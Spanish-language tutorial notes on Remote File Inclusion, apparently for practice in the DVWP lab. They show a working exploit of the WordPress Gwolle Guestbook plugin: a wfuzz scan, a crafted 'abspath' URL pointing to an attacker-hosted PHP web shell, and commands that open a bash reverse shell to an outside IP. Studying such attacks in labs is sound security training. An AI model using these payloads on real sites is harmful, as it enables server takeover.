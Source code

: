 # Remote File Inclusion (RFI)

Tags: #RFI #OWASP #Explotacion 

La vulnerabilidad **Remote File Inclusion** (**RFI**) es una vulnerabilidad de seguridad en la que un atacante puede **incluir** **archivos remotos** en una aplicación web vulnerable. Esto puede permitir al atacante ejecutar código malicioso en el servidor web y comprometer el sistema.

En un ataque de RFI, el atacante utiliza una entrada del usuario, como una URL o un campo de formulario, para incluir un archivo remoto en la solicitud. Si la aplicación web no valida adecuadamente estas entradas, procesará la solicitud y devolverá el contenido del archivo remoto al atacante.

Un atacante puede utilizar esta vulnerabilidad para incluir archivos remotos maliciosos que contienen código malicioso, como virus o troyanos, o para ejecutar comandos en el servidor vulnerable. En algunos casos, el atacante puede dirigir la solicitud hacia un recurso PHP alojado en un servidor de su propiedad, lo que le brinda un mayor grado de control en el ataque.

A continuación, se proporciona el enlace al proyecto de Github correspondiente al laboratorio que estaremos desplegando para practicar esta vulnerabilidad:

-   **DVWP**: [https://github.com/vavkamil/dvwp](https://github.com/vavkamil/dvwp)

Asimismo, se os comparte el enlace directo para la descarga del plugin ‘**Gwolle Guestbook**‘ de WordPress:

-   **Gwolle Guestbook**: [https://es.wordpress.org/plugins/gwolle-gb/](https://es.wordpress.org/plugins/gwolle-gb/)


## Codigo 

Para descubrir si tiene el Plugin de **gwolle-gb** 
```bash
❯ wfuzz -c --hc=404 -t 200 -w wp-plugins.fuzz.txt http://❮IP❯/FUZZ

	# hc -> HideCode 404
	# c -> Formato colorido
	# w -> Ruta del diccionario
	# FUZZ -> Donde va a insertar las palabras el diccionario
	# t -> Lanzar tareas en paralelo al mismo tiempo
```
**Nota**: El PHP de la victima debe de tener '**allow_url_include = 'ON'**', de lo contrario no va a funcionar
Podemos explotar la vulnerabilidad agregando desde '/wp-content/' esto a la url de la pagina web:
```bash
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/    # Colocamos nuestra IP y lo que hara ese comando es intentar cargar un archivo 'GET /wp-load.php HTTP/1.0'
```

Debemos de tener activo un servidor http en nuestra maquina de atacante 
```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80
```

Por lo que debemos de crear ese archivo para cargar comandos y tambien podemos colocarle una revershell.
```php
❯ nano wp-load.php
	<?php
		system("whoami");
	?>

	// hostname -I
```

O podemos controlar el comando
```php
❯ nano wp-load.php
	<?php
		system($_GET["cmd"]);
	?>
```

En la url al final debemos de colocar: **&cmd='comando'**
```bash
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/&cmd=whoami
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/&cmd=bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/&cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.2/443 0>%261"     # -> La manera correcta que es url-encodeado
```